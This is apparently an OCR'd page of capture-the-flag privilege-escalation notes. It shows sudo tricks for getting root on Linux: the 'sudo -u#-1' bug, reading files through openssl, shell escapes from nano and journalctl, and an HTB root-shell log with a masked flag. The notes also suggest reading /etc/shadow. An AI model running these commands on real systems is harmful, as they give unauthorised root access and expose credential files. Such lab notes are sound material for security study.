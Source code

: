 ### example /usr/bin/id
```
sudo -u#-1 id
```
### example /usr/bin/ncdu
```
sudo -u#-1 /usr/bin/ncdu /root
```
```
sudo -V | head -n1
```

## (ALL) NOPASSWD: /usr/bin/openssl
```
LFILE=file_to_read
```
```
openssl enc -in "$LFILE"
```
Read the /etc/shadow file or obtain a reverse shell as the ida_rsa private key file will grant us SSH back into the environment as the root user
## (ALL) NOPASSWD: /bin/nano /opt/priv
## GTFOBins
```
$ sudo /bin/nano /opt/priv
```
```
^R^X
```
```
reset; sh 1>&0 2>&0
```
## /usr/bin/sudo /usr/bin/journalctl
```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
...
lines 1-6/6 (END)
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david# cat /root/root.txt 
9aa36a**************************
```
## fail2ban
```
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/
```
```
https://0xdf.gitlab.io/2022/10/29/htb-trick.html
```
# id
